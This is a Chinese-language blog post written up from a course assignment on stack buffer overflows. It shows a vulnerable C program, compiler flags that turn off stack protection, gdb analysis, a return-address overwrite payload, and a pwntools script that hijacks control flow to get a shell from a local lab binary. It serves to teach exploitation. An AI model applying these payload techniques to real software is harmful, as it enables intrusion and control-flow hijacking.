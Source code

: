 ```yaml
---
title: 栈溢出利用
date: 2020-09-16 15:59:59
tags: ["随笔"]
index_img: ../assets/gdb-debug.png
---
```


## 概述

![stack-frames](../assets/stack-frame.jpg)

软件漏洞分析课程的一次作业，利用了栈内存的缓冲区溢出，覆盖了返回地址，从而达到劫持控制流的目的。如果希望能具体了解一下图中 c 函数调用的实现，可以看一下 B 站上陈渝教授的这个视频。

<iframe style="margin-left: 50%;transform: translateX(-50%);width: 50vw;height: 40vw;" src="//player.bilibili.com/player.html?aid=77228694&bvid=BV1mJ411X73U&cid=132102373&page=5" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true"> </iframe>
## EXP1

```c
#include <stdio.h>
#include <string.h>

void function2()
{
  printf("Executed chagned\n");
}

void function1()
{
  char buffer[5];
  strcpy(buffer,str);
}

void main(int argc, char *argv[])
{
  function1(argv[1]);
  printf("Executed normally\n");
}
```

使用`gdb`进行调试，`strcpy`函数可以被利用引起缓冲区溢出，目前的问题时需要多长的字符串，以及需要将`function1`栈帧的返回地址覆盖为什么

环境

> ubuntu 16.04
>
> gcc 5.4.0
>
> gdb 7.11.1

![arch](../assets/ubuntu-arch.png)

关闭堆栈保护机制，使用`gcc`编译

```bash
gcc -g main.c -m32 -o main32 -z execstack -fno-stack-protector
```

![gdb](../assets/gdb-debug.png)

可以得出`ebp`与`&buffer`相距 13 个字节，同时返回地址占用 4 个字节，`function2`的地址为`0x0804845B`。由于采用的是`小端存储`，因此需要将目标函数地址按字节倒序写入。构造出 payload`AAAAAAAAAAAAAAAAA\x5B\x84\x04\x08`

![stack-overflow-result](../assets/stack-overlow-result.png)

成功调用了`function2`，同理地址也可以被改成其他的函数地址。

## EXP2

已知一个[二进制文件](https://raw.github.com/ChenKS12138/ChenKS12138.github.io/source-code/assets/stack-tutorial)，通过 ida 静态调试。

![ida](../assets/stack-overflow-ida.png)

vulnerable_function 中的 buffer 只需要 1 个字节，但是第五行的 read 函数可以输入 256 个字节，这里可能存在着栈溢出。根据第三行的注释推测，`&buffer`距离`ebp`位 0x30 个字节，猜测我们需要构造的 payload 为 52 字节的字符串再加上目标函数的地址，即`backdoor`函数的地址。

```python
from pwn import *
p=process("./stack");

ret_addr=0x0804846B

payload = "a"*52+p32(ret_addr)

p.sendline(payload)
p.interactive()
p.close()
```

![EXP2-RESULT](../assets/stack-overflow-pwn-result.png)

成功拿到 shell
